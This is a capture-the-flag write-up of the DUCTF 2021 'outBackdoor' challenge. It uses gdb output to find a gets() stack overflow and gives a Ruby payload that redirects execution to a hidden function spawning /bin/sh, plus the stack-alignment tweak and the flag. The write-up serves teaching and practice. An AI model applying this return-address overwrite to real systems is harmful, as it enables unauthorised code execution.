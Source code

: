 ## Intro
**outBackdoor** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present, especially no PIE. Following the `ltrace` I learned the relatively simple flow of the program and found
a potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and found - next
to the `main` function - another interesting function called `outBackdoor`.

```
(gdb) info functions
...
0x0000000000401195  main
0x00000000004011d7  outBackdoor
...
```

```
(gdb) disas outBackdoor
...
0x00000000004011e7 <+16>:	lea    rdi,[rip+0xedf]        # 0x4020cd  "/bin/sh"
0x00000000004011ee <+23>:	mov    eax,0x0
0x00000000004011f3 <+28>:	call   0x401050 <system@plt>
...
```

```
(gdb) disas main
...
0x00000000004011bf <+42>:	lea    rax,[rbp-0x10]
0x00000000004011c3 <+46>:	mov    rdi,rax
0x00000000004011c6 <+49>:	mov    eax,0x0
0x00000000004011cb <+54>:	call   0x401060 <gets@plt>
...
```

The disassembly of the functions reveals we can get a shell from `outBackdoor` - if we are able to call it, as it isn't called from anywhere in `main`.
So the goal is to overflow the buffer in the `main` function and overwrite the return address with the address of the `outBackdoor` function. Let's set
a breakpoint right after the `gets` and run the program with `AAAAAAAA` as input.

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffdee0:
 rip = 0x4011d0 in main; saved rip = 0x7ffff7e0cb75
 Arglist at 0x7fffffffded0, args: 
 Locals at 0x7fffffffded0, Previous frame's sp is 0x7fffffffdee0
 Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x00000000	0x00000000
0x7fffffffded0:	0x00000000	0x00000000	0xf7e0cb75	0x00007fff
0x7fffffffdee0:	0xffffdfc8	0x00007fff
```

We see that the buffer at `rbp-0x10` which is at `0x7fffffffdec0` itself takes 16 bytes of which we filled 8 bytes with the `AAAAAAAA`'s we typed in.
Then follows the `rbp` at `0x7fffffffded0`. On a 64-bit system this address takes another 8 bytes and directly after follows the `main` function's return
address we want to overwrite with the address of `outBackdoor` which is `0x00000000004011d7` - lucky for us the binary isn't PIE enabled.  

So we can just fill the buffer at `rbp-0x10` with 16 bytes, overwrite the `rbp` next with another 8 bytes and then overwrite
the return address of `main` with the 64-bit address of `outBackdoor` which is `0x00000000004011d7`.

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r < <(ruby -e 'print "A"*16 + "B"*8 + "\xd7\x11\x40\x00\x00\x00\x00\x00"')
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x42424242	0x42424242	0x004011d7	0x00000000
0x7fffffffdee0:	0xffffdf00	0x00007fff
(gdb) c
Continuing.


W...w...Wait? Who put this backdoor out back here?
```

When running the exploit remotely, though, the program crashed because of the `movaps` issue expecting the stack to be 16-byte aligned.
In order to deal with that issue I overwrote the return address of `main` with the address of `outBackdoor + 1`, skipping the first `push rbp` instruction.

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
